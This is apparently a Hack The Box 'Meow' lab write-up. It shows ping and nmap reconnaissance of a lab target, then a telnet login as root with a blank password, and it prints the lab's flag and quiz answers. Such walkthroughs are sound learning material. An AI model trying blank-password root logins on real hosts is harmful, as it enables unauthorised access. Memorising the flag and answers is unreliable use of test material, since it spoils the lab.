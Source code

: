 #telnet #protocols #reconnaissance 

# 0. Theory

**What does the acronym VM stand for?**
*Virtual Machine*

**What tool do we use to interact with the operating system in order to issue  commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.**
*Terminal*

**What service do we use to form our VPN connection into HTB labs?**
*OpenVPN*

**What tool do we use to test our connection to the target with an ICMP echo request?**
*ping*

**What is the name of the most common tool for finding open ports on a target?**
*nmap*

**What service do we identify on port 23/tcp during our scans?**
*telnet*


# 1. Recon

Target IP: `10.129.177.133`

`ping 10.129.177.133` -c 5`

	┌─[eu-starting-point-2-dhcp]─[10.10.15.114]─[scrage@htb-bgbi9poufc]─[~]
	└──╼ [★]$ ping 10.129.177.133 -c 5
	PING 10.129.177.133 (10.129.177.133) 56(84) bytes of data.
	64 bytes from 10.129.177.133: icmp_seq=1 ttl=63 time=76.4 ms
	64 bytes from 10.129.177.133: icmp_seq=2 ttl=63 time=76.7 ms
	64 bytes from 10.129.177.133: icmp_seq=3 ttl=63 time=76.4 ms
	64 bytes from 10.129.177.133: icmp_seq=4 ttl=63 time=76.2 ms
	64 bytes from 10.129.177.133: icmp_seq=5 ttl=63 time=76.4 ms


# 2. Enumeration

Using Network Mapper (**nmap**)  to scan for open ports in order to identify what kind of services are to run on the target. Using the `-sV` service detection flag to determine the name and description of the identified services.

`sudo nmap -sV 10.129.177.133`

	┌─[eu-starting-point-2-dhcp]─[10.10.15.114]─[scrage@htb-bgbi9poufc]─[~]
	└──╼ [★]$ sudo nmap -sV 10.129.177.133
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 17:44 CDT
	Nmap scan report for 10.129.177.133
	Host is up (0.077s latency).
	Not shown: 999 closed tcp ports (reset)
	PORT   STATE SERVICE VERSION
	23/tcp open  telnet  Linux telnetd
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 11.86 seconds

Found one: port **23/tcp** is running the **telnet** service.

Usually, connection requests through telnet are configured with username/password combinations for increased security. We can see this is the case for our target, as we are met with a Hack The Box banner and a request from the target to authenticate ourselves before being allowed to proceed with remote management of the target host.

	┌─[eu-starting-point-2-dhcp]─[10.10.15.114]─[scrage@htb-bgbi9poufc]─[~]
	└──╼ [★]$ telnet 10.129.177.133
	Trying 10.129.177.133...
	Connected to 10.129.177.133.
	Escape character is '^]'.
	
	  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
	  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
	  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█
	
	
	Meow login: 

We will need to find some credentials that work to continue since there are no other ports open on the target that we could explore.

Sometimes, due to configuration mistakes, some important accounts can be left with blank passwords for the sake of accessibility. This is a significant issue with some network devices or hosts, leaving them open to simple brute-forcing attacks, where the attacker can try logging in sequentially, using a list of usernames with no password input.

Some typical important accounts have self-explanatory names, such as:
- admin
- administrator
- root

And lo' and behold, "root" works without password:

	Meow login: root
	
	Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)
	
	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage
	
	  System information as of Sun 25 Aug 2024 10:54:18 PM UTC
	
	  System load:           0.0
	  Usage of /:            41.7% of 7.75GB
	  Memory usage:          4%
	  Swap usage:            0%
	  Processes:             135
	  Users logged in:       0
	  IPv4 address for eth0: 10.129.177.133
	  IPv6 address for eth0: dead:beef::250:56ff:fe94:3b56
	
	 * Super-optimized for small spaces - read how we shrank the memory
	   footprint of MicroK8s to make it the smallest full K8s around.
	
	   https://ubuntu.com/blog/microk8s-memory-optimisation
	
	75 updates can be applied immediately.
	31 of these updates are standard security updates.
	To see these additional updates run: apt list --upgradable
	
	The list of available updates is more than a week old.
	To check for new updates run: sudo apt update
	
	Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
	root@Meow:~#

That is one critical finding already.
Also, there are a lot of additional intelligence gathered from this successful login and the prompt:
- Uses Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64).
- System has 7.75GB physical storage.
- IPv6 address is `dead:beef::250:56ff:fe94:3b56`
- There are 75 updates can be applied immediately; 31 of these updates are standard security updates. We can check these to know more.
- Last root login has happened on Monday, Sep  6 15:15:23 UTC 2021 from **10.10.14.18** on pts/0 - That could potentially be a root user's IP address we got there if this was a real-life target.

We can check the directory's content we landed on with the `ls` command:

	root@Meow:~# ls
	flag.txt  snap
	root@Meow:~# cat flag.txt 
	b40abdfe23665f766f9c61ecba8a4c19

And we've got a flag.
The `flag.txt` file is our target in this case. Most of Hack The Box's targets will have one of these files, which will contain a hash value called a flag . The naming convention for these targeted files varies from lab to lab. For example, weekly and retired machines will have two flags, namely `user.txt` and `root.txt` . CTF targets and other labs will have `flag.txt` . 

https://www.hackthebox.com/achievement/machine/2057492/394
![[Pasted image 20240826011913.png]]